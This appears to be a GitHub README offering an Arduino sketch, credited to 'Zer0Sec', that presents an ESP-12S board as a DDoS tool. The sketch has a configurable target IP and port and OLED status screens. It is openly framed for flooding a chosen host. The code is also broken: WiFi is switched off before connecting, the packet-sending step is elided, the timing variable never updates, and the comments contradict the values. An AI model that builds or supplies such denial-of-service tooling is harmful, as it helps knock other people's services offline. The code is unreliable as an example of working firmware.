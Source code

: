 # ESP-BOARD-DDOSER
ITS AND ESP BOARD DDOSER ITS ESP-12S DDOSER 
HERE IS THE SKETCH CODE

#include <Arduino.h>
#include <Wire.h>
#include <U8g2lib.h>
#include <ESP8266WiFi.h>
#include <WiFiClient.h>

#define LED_PIN 2

U8G2_SSD1306_128X64_NONAME_F_SW_I2C u8g2(U8G2_R0, /* clock=*/ 14, /* data=*/ 12, /* reset=*/ U8X8_PIN_NONE);

void setup() {
  Serial.begin(115200);

  pinMode(LED_PIN, OUTPUT);
  digitalWrite(LED_PIN, HIGH); // turn on the LED

  u8g2.begin();
  u8g2.clearBuffer();
  u8g2.setFont(u8g2_font_7x14B_tr);
  u8g2.drawStr(0, 10, "Made by Zer0Sec");
  u8g2.setFont(u8g2_font_6x12_tr);
  u8g2.drawStr(0, 25, "DDOS Starting!!");
  u8g2.drawStr(0, 40, "Target IP:");
  u8g2.drawStr(0, 51, "10.0.0.1");
  u8g2.drawStr(0, 62, "Target Port: 80");
  u8g2.sendBuffer();

  WiFi.mode(WIFI_OFF);
}

void loop() {
  bool fiveSecondsPassed = false;
  unsigned long startTime = millis();

  IPAddress targetIP(10, 0, 0, 1); // replace with your target IP address
  int targetPort = 80; // replace with your target port number

  WiFiClient client;
  client.connect(targetIP, targetPort);

  u8g2.setFont(u8g2_font_7x14B_tr);
  u8g2.drawStr(0, 10, "Made by Zer0Sec");
  u8g2.setFont(u8g2_font_6x12_tr);
  u8g2.drawStr(0, 25, "DDOS Starting!!");
  u8g2.drawStr(0, 40, "Target IP:");
  u8g2.drawStr(0, 51, "10.0.0.1");
  u8g2.drawStr(0, 62, "Target Port: 80");
  u8g2.sendBuffer();

  delay(5000); // wait for 5 seconds before starting to send packets

  unsigned long currentTime = startTime;
  String packetData = "";
  int packetsSent = 0;
  int totalBytesSent = 0;
  int totalPacketsSent = 0; // add this line to keep track of total packets sent

  while (currentTime - startTime < 25000) { // send packets for 10 seconds
    static unsigned long lastSecond = 0;
    static int packetsSentThisSecond = 0;

    if (client.connected()) {
        // ...
        packetsSent++;
        totalBytesSent += packetData.length();
        delay(50); // wait for 50 milliseconds between each packet

        // update live packet count on OLED every second
if (millis() - lastSecond >= 1000) {
    lastSecond = millis();
    u8g2.clearBuffer();
    u8g2.setFont(u8g2_font_7x14B_tr);
    u8g2.drawStr(0, 10, "Made by Zer0Sec");
    u8g2.setFont(u8g2_font_6x12_tr);
    u8g2.drawStr(0, 25, "DDOS in progress");
    u8g2.drawStr(0, 40, "Packets sent:");
    totalPacketsSent += packetsSentThisSecond;
    u8g2.setCursor(75, 40);
    u8g2.print(totalPacketsSent);
    u8g2.sendBuffer();
    packetsSentThisSecond = 0;
}

// end the loop after 10 seconds
if (currentTime - startTime >= 10000) {
    client.stop();

    u8g2.clearBuffer();
    u8g2.setFont(u8g2_font_7x14B_tr);
    u8g2.drawStr(0, 10, "Made by Zer0Sec");
    u8g2.setFont(u8g2_font_6x12_tr);
    u8g2.drawStr(0, 25, "DDOS finished");
    u8g2.drawStr(0, 40, "Total packets sent:");
    u8g2.setCursor(95, 40);
    u8g2.print(totalPacketsSent);
    u8g2.sendBuffer();

    while (1) { // infinite loop to prevent the program from continuing to execute
        digitalWrite(LED_PIN, HIGH); // turn on the LED to indicate that the program has finished executing
        delay(500);
        digitalWrite(LED_PIN, LOW);
        delay(500);
    }
}

packetsSentThisSecond++;
   }
 }
}

